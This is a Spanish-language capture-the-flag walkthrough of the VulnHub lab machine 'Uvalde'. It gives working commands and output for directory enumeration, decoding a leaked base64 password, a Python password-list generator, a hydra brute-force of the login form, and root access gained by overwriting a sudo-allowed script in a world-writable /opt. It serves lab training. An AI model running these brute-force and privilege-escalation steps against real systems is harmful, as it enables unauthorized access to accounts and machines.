


# Momentum VH

- Ip atacante - 10.0.2.4
- Ip victima - 10.0.2.14

Comencemos con un scaneo rapido de nmap dentro de estos encontramos 



Ya que con el escaneo de nmap nos dice que se puede acceder anonimamente al ftp eso es lo primero que realizo



viendo el archivo output la verdad solo se que hay un usuario Matthew.
Me confirma que es un usuario Linux y me muestra un ejemplo de los comandos que corrio antereriormente

##80 http

Continuare viendo el http la cual es una pagina completamente normal.
Lanzando la herramienta gobuster encontramos nuevos directorios

``` gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.0.2.14 -x .php,.html     
===============================================================
Gobuster v3.4
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.0.2.14
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.4
[+] Extensions:              html,php
[+] Timeout:                 10s
===============================================================
2023/02/23 13:02:55 Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 274]
/.html                (Status: 403) [Size: 274]
/index.php            (Status: 200) [Size: 29604]
/img                  (Status: 301) [Size: 304] [--> http://10.0.2.14/img/]
/login.php            (Status: 200) [Size: 1022]
/user.php             (Status: 302) [Size: 0] [--> login.php]
/mail                 (Status: 301) [Size: 305] [--> http://10.0.2.14/mail/]
/css                  (Status: 301) [Size: 304] [--> http://10.0.2.14/css/]
/js                   (Status: 301) [Size: 303] [--> http://10.0.2.14/js/]
/success.php          (Status: 302) [Size: 0] [--> login.php]
/vendor               (Status: 301) [Size: 307] [--> http://10.0.2.14/vendor/]
/create_account.php   (Status: 200) [Size: 1003]
/.html                (Status: 403) [Size: 274]
/.php                 (Status: 403) [Size: 274]
/server-status        (Status: 403) [Size: 274] 
```

De estos los mas interesantes son el /login y /create_account.php
Lanzando un ataque de fuerza bruta mediante hydra me dice que el login es de matthew y el password 123456 sin embargo cuando intento entrar no me lo permite.

``` 
curl --url "http://10.0.2.14/create_account.php" -X POST -d "username=test1" -i -v  
Note: Unnecessary use of -X or --request, POST is already inferred.
*   Trying 10.0.2.14:80...
* Connected to 10.0.2.14 (10.0.2.14) port 80 (#0)
> POST /create_account.php HTTP/1.1
> Host: 10.0.2.14
> User-Agent: curl/7.87.0
> Accept: */*
> Content-Length: 14
> Content-Type: application/x-www-form-urlencoded
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 302 Found
HTTP/1.1 302 Found
< Date: Thu, 23 Feb 2023 18:18:58 GMT
Date: Thu, 23 Feb 2023 18:18:58 GMT
< Server: Apache/2.4.54 (Debian)
Server: Apache/2.4.54 (Debian)
< Set-Cookie: UserName=registred; expires=Thu, 23-Feb-2023 19:18:58 GMT; Max-Age=3600
Set-Cookie: UserName=registred; expires=Thu, 23-Feb-2023 19:18:58 GMT; Max-Age=3600
< Location: success.php?dXNlcm5hbWU9dGVzdDEmcGFzc3dvcmQ9dGVzdDEyMDIzQDU0NjQ=
Location: success.php?dXNlcm5hbWU9dGVzdDEmcGFzc3dvcmQ9dGVzdDEyMDIzQDU0NjQ=
< Content-Length: 1031
Content-Length: 1031
< Content-Type: text/html; charset=UTF-8
Content-Type: text/html; charset=UTF-8

----> Aqui iba el codigo de la pagina <----

Account successfully * Connection #0 to host 10.0.2.14 left intact
created 
```

Si nos damos cuenta en el Location nos deja un texto en base64 que si lo decodeamos nos resulta lo siguiente

```
echo 'dXNlcm5hbWU9dGVzdDEmcGFzc3dvcmQ9dGVzdDEyMDIzQDU0NjQ=' | base64 -d;echo  
username=test1&password=test12023@5464
```

Si hago este proceso me puedo dar cuenta que siempre es el mismo formato
del password nombre2023@XXXX 

Las X serian 4 numeros aleatorios
Para esto tenemos que crear nuestro diccionario asi que cree un pequeño programa con python para generar las claves.

```
user = 'matthew2023@'

with open('test.txt', 'w') as f:
        for num in range(1,10000):
                correct_num = str(num).zfill(4)
                f.write(user+correct_num+'\n')
```

Con este programa se crearon las contraseñas en un archivo llamado test.txt 
Ahora solo queda hacer fuerza bruta con hydra

```
hydra -l matthew -P test.txt 10.0.2.14 http-post-form '/login.php:username=matthew&password=^PASS^:<input type="submit" value="Login">' 
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-02-23 13:56:00
[DATA] max 16 tasks per 1 server, overall 16 tasks, 9999 login tries (l:1/p:9999), ~625 tries per task
[DATA] attacking http-post-form://10.0.2.14:80/login.php:username=matthew&password=^PASS^:<input type="submit" value="Login">
[80][http-post-form] host: 10.0.2.14   login: matthew   password: matthew2023@1554
```

Una vez logramos obtener usuario y contraseña podemos ingresar por el ssh

##22 ssh

Encontramos de primeras la primera flag

```
matthew@uvalde:~$ cat user.txt 
6e4136fbed8f8c691996dbf42697d460
```

Ahora dentro de la maquina buscamos la manera de escalar privilegios

```
matthew@uvalde:/opt$ sudo -l
Matching Defaults entries for matthew on uvalde:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User matthew may run the following commands on uvalde:
    (ALL : ALL) NOPASSWD: /bin/bash /opt/superhack
matthew@uvalde:/opt$ ls -ld /opt/
drwx---rwx 2 root root 4096 Feb  5 10:03 /opt/
matthew@uvalde:/opt$ mv superhack superhack.back
matthew@uvalde:/opt$ echo 'bash' > superhack
matthew@uvalde:/opt$ cd ..
matthew@uvalde:/$ sudo /bin/bash /opt/superhack
root@uvalde:/# cd /root
root@uvalde:~# ls
root.txt
root@uvalde:~# cat root.txt 
59ec54537e98a53691f33e81500f56da
```

Y asi terminamos la maquina Uvalde